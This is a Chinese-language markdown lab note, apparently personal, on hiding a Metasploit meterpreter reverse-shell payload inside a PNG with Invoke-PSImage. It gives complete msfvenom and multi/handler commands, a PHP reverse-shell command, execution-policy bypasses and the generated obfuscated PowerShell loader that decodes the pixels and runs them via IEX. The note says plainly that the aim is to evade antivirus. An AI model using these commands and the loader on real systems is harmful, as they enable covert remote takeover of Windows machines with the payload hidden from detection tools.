 
[Invoke-PSImage利用分析](https://www.4hou.com/technology/9472.html)

[msf使用参考](https://blog.csdn.net/nzjdsds/article/details/82929265)

fail

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img.ps1 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img2.ps1   

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img3.ps1  --smallest  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f powershell  -o img4.ps1  --smallest   
```

success

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.255.153 LPORT=2333 -f psh-reflection  -o img.ps1 --smallest```

打开msf

```
use exploit/multi/handler
set LHOST 192.168.255.153
set LPORT 2333 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

payload的选择取决于生成被控端文件用了什么模块，名字都是一样的

msfpayload php/reverse_php LHOST=x.x.x.x LPORT=2333 R > re.php

set PAYLOAD php/reverse_php

先保证msf生成的payload执行可以反弹,再把它藏在图片中

如果 powershell.ps1 不能被执行 ，修改权限：在powershell中执行 set-ExecutionPolicy RemoteSigned


打开受控端powershell,执行

```Import-Module C:\Users\Administrator\Desktop\Invoke-PSImage.ps1```

```Invoke-PSImage -Script C:\Users\Administrator\Desktop\img5.ps1 -Image C:\Users\Administrator\Desktop\q.jpg -Out C:\Users\Administrator\Desktop\ss.png```

![](2.jpg)

回显

```
sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap("C:\Users\Administrator\Desktop\ss.png");$o=a Byte[] 2960;(0..4)|%{foreach($x in(0..591)){$p=$g.GetPixel($x,$_);$o[$_*592+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..2778]))
```

在受控端powershell执行回显即可反弹，复现成功

原理：将不免杀的payload藏于图片中，图片是免杀的，上传图片即可。调用图片的代码也是免杀的，类似于调用包含shellcode的文件

生成的回显即为调图片的代码。也可以根据需求设置调用网页上的图片。



evil.ps1 为我写的一个在powershell中输出 test 的小脚本，用于测试使用

```$powershell -exec bypass``` 或 ```$powershell XXX```   # 在 cmd 执行powershell


**注意：图片像素数应大于payload字节数**

### 参考资料

[powershell攻击集](https://github.com/samratashok/nishang)
